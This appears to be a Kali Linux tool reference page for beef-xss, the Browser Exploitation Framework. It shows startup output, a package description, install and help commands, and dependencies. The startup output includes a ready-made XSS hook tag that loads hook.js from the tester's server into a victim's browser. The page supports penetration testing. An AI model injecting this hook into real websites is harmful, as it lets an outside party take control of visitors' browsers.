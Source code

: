 # beef-xss

### Screenshots <a href="#screenshots" id="screenshots"></a>

[![beef-xss](<../.gitbook/assets/beef xss.png>)](<../.gitbook/assets/beef xss.png>)

### beef Usage Example <a href="#beef-usage-example" id="beef-usage-example"></a>

```
:~# beef-xss
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - LSB: BeEF
   Loaded: loaded (/etc/init.d/beef-xss; generated)
   Active: active (running) since Sat 2018-11-24 18:44:53 EST; 5s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 3457 ExecStart=/etc/init.d/beef-xss start (code=exited, status=0/SUCCESS)
    Tasks: 5 (limit: 4665)
   Memory: 151.9M
   CGroup: /system.slice/beef-xss.service
           └─3463 ruby /usr/share/beef-xss/beef

Nov 24 18:44:53 kali systemd[1]: Starting LSB: BeEF...
Nov 24 18:44:53 kali systemd[1]: Started LSB: BeEF.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
```

***

\


### Packages and Binaries:

#### beef-xss <a href="#beef-xss" id="beef-xss"></a>

BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

Amid growing concerns about web-born attacks against clients, including mobile clients, BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors. Unlike other security frameworks, BeEF looks past the hardened network perimeter and client system, and examines exploitability within the context of the one open door: the web browser. BeEF will hook one or more web browsers and use them as beachheads for launching directed command modules and further attacks against the system from within the browser context.

**Installed size:** `19.74 MB`\
**How to install:** `sudo apt install beef-xss`

<details>

<summary>Dependencies:</summary>

* adduser
* lsof
* ruby-ansi
* ruby-async-dns
* ruby-dev
* ruby-em-websocket
* ruby-erubis
* ruby-espeak
* ruby-eventmachine
* ruby-execjs
* ruby-json
* ruby-maxmind-db
* ruby-mime-types
* ruby-msfrpc-client
* ruby-otr-activerecord
* ruby-parseconfig
* ruby-qr4r
* ruby-rack
* ruby-rack-protection
* ruby-rubydns
* ruby-rushover
* ruby-sinatra
* ruby-slack-notifier
* ruby-sqlite3
* ruby-term-ansicolor
* ruby-terser
* ruby-twitter
* ruby-xmlrpc
* ruby-zip
* rubygems-integration
* thin
* xdg-utils

</details>

**beef-xss**

```
:~# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```

***

**beef-xss-stop**

```
:~# beef-xss-stop -h
* beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)
```

***

Updated on: 2022-Nov-16\


***
